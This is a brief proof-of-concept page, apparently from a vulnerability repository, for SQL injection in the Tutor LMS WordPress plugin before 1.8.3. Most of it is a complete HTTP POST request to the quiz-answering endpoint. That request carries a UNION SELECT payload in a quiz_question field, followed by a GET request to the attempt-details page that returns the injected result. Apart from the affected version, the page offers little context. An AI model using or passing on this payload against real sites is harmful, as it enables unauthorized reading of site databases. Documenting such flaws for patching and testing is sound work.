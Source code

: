 影響版本
--------

    Tutor LMS – eLearning and online course solution < 1.8.3

POC
---

    POST /courses/first-class/tutor_quiz/test/ HTTP/1.1
    Host: [URL]
    Content-Length: 413
    Cache-Control: max-age=0
    Upgrade-Insecure-Requests: 1
    Origin: [URL]
    Content-Type: application/x-www-form-urlencoded
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
    Referer: [URL]
    Accept-Encoding: gzip, deflate
    Accept-Language: en-US,en;q=0.9
    Cookie: [COOKIES]
    Connection: close

    _wpnonce=[REPLACE_WITH_VALID_NONCE]&_wp_http_referer=%2Fcourses%2Ffirst-class%2Ftutor_quiz%2Ftest%2F&attempt_id=1&tutor_action=tutor_answering_quiz_question&attempt%5B1%5D%5Bquiz_question_ids%5D%5B%5D=&attempt%5B1%5D%5Bquiz_question%5D%5B1%5D=1 UNION select 1,2,3,version(),5,6,7,8,9,10.11,12,13;--&attempt%5B1%5D%5Bquiz_question_ids%5D%5B%5D=2&attempt%5B1%5D%5Bquiz_question%5D%5B2%5D=5&quiz_answer_submit_btn=quiz_answer_submit
    Then send a GET request to

    http://[URL]/dashboard/my-quiz-attempts/attempts-details/?attempt_id=1
